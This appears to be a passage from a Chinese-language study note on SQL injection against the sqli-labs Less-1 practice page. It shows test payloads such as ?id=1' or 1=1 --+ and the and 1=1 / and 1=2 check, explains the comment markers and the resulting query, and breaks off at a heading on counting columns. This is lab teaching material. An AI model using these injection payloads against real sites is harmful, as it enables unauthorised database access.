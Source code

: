 #### 测试

```
http://192.168.81.135/sqli/Less-1/?id=1' or 1=1 --+
```

显示正确结果

注意

--+：结束符

--：注释符

#：注释符

数据库中的查询语句为

```
select * from users where id='1' or 1=1--' limit 0,1;
```

其中

limit 0,1：

​	0：表示从0位置开始，

​	1：为步长，表示几个

![image-20211210193431229](https://gitee.com/xxb667/img/raw/master/img/image-20211210193431229.png)

### 判断漏洞法2

- 首先注入语句

  ```
  ?id=1' and 1=1--+
  ```

  正常登录不报错

  ![image-20211210194326860](https://gitee.com/xxb667/img/raw/master/img/image-20211210194326860.png)

- 然后把1=1改为1=2

  ```
  ?id=1' and 1=2--+
  ```

  不显示任何信息（说明有注入漏洞）

  ![image-20211210194433873](https://gitee.com/xxb667/img/raw/master/img/image-20211210194433873.png)

### 注入字符判断列数

#### 注：

- 超出列数会报错
